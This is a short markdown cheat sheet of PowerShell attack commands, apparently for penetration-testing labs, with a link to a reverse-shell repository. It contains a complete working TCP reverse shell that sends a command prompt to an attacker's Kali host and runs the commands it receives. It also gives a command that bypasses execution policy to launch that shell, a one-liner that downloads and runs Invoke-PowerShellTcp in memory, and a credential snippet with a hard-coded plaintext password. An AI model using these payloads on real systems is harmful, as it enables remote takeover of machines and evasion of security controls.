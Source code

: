 # PowerShell useful commands

## credentials

```
$user = 'TESTLAB\dfm.a'
$pwd = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $pwd)
```


## shell

revshell.ps1
```powershell
$c = New-Object System.Net.Sockets.TCPClient("<KALI IP>","4444");
$I = $c.GetStream();[byte[]]$U = 0..(2-shl15)|%{0};
$U = ([text.encoding]::ASCII).GetBytes("Copyright (C) 2021 Microsoft Corporation. All rights reserved.`n`n");
$I.Write($U,0,$U.Length); $U = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>'); $I.Write($U,0,$U.Length);
while(($k = $I.Read($U, 0, $U.Length)) -ne 0){;$D = (New-Object System.Text.UTF8Encoding).GetString($U,0, $k);
$a = (iex $D 2>&1 | Out-String ); $r  = $a + (pwd).Path + '> '; $m = ([text.encoding]::ASCII).GetBytes($r);
$I.Write($m,0,$m.Length); $I.Flush()}; $c.Close();
```

Exec file
```
powershell -nop -exec Bypass -File revshell.ps1
```


Execute download direct on memory
```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```


# Links

[PowerShell-Reverse-Shells](https://github.com/0x10F8/PowerShell-Reverse-Shells)